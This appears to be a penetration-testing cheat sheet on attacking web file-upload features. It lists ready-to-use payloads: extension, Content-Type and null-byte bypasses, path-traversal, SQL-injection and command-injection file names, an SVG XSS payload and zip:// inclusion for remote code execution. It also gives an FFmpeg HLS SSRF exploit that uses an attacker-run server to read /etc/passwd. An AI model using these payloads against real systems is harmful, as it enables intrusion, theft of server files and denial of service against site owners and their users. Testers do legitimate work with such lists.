 ***

**Upload Function**
- ImageTragick
- XXE via svg file
- XXE via excel file
- Bypass extensions while uploading (.jpg to .php, php3, php4, etc)
- Content-type validation
	- Upload `file.php` and change the Content-Type `application/x-php` to `Content-Type image/png`
- Using Null-Byte: Upload img.phpD.jpg now change the value D (44) in Hex to 00
- LFI: put file name `../../etc/passwd/logo.png` to get directory traversal via upload file
- SQL: 'sleep(10).jpg'
**SSRF** (and local file disclosure) via FFmpeg HLS processing
- [hackerone_report](hackerone.com/reports/237381)
- Upload the ssrf.avi (ssrf_via_video.avi) and listen the port 1337 on your VPS if you get response then exploit it further to LFI
- Exploitation:
	- Modify the file.avi and change the path to `http://ip:8080/initialm3u?filename=/etc/passwd` run the exploit: `python3 file_reading_server.py --external-addr ip --port 8080`
- Upload file.js & file.config (web.config)
- Pixel flood attack using image
- Dos using large values like name of a image `1234567891011...99999.png`
- XSS payload in image name `payload.jpg`
- (Zip Slip) if a site accepts `.zip` file, upload .php and compress it into `.zip` and upload it. Now visit `site.com/path?page=zip://path/file.zip%23rce.php
---
**File upload and what to search**

```
ASP / ASPX / PHP5 / PHP / PHP3 : WebShell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stroed XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
ZIP: RCE via LFI / DOS
HTML / JS :HTML injection / XSS / Open redirect
PNG / JPGE:Pixel flood attack (DoS)
PDF / PPTX: SSRF / BLIND XXE
```

**File upload chain**
```
../../../tmp/lol.png -> for path traversal
sleep(10)-- -.jpg    -> for SQL injection
<svg  onload=alert(document.domain)>.jpg/png -> for XSS
; sleep 10; for command injections
```
